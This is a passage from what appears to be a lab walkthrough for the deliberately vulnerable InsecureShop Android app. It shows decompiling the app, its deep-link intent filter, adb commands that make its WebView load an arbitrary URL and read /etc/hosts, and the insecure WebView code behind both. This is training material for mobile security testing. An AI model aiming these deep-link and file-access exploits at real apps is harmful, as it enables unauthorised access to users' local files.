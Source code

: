     ```bash
    jadx -d output_folder InsecureShop.apk
    ```

**Step 2:** Open `AndroidManifest.xml` to identify intent filters.

**Found Intent Filter:**

```xml
<intent-filter>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.DEFAULT"/>
    <category android:name="android.intent.category.BROWSABLE"/>
    <data android:scheme="insecureshop"/>
</intent-filter>
```

**Exploit via adb to load arbitrary URL:**

```bash
adb shell am start -a android.intent.action.VIEW -d 'insecureshop://com.insecureshop/web?url=http://example.com'
```

**Exploit via adb to read system files:**

```bash
adb shell am start -a android.intent.action.VIEW -d 'insecureshop://com.insecureshop/web?url=file:///etc/hosts'
```

**Code Snippet with Vulnerabilities:**

```java
WebView webView = findViewById(R.id.webview);
webView.getSettings().setJavaScriptEnabled(true);
webView.getSettings().setAllowUniversalAccessFromFileURLs(true);

Uri uri = getIntent().getData();
if (uri != null) {
    String url = uri.getQueryParameter("url");
    if (url != null) {
        webView.loadUrl(url);
    }
}
```
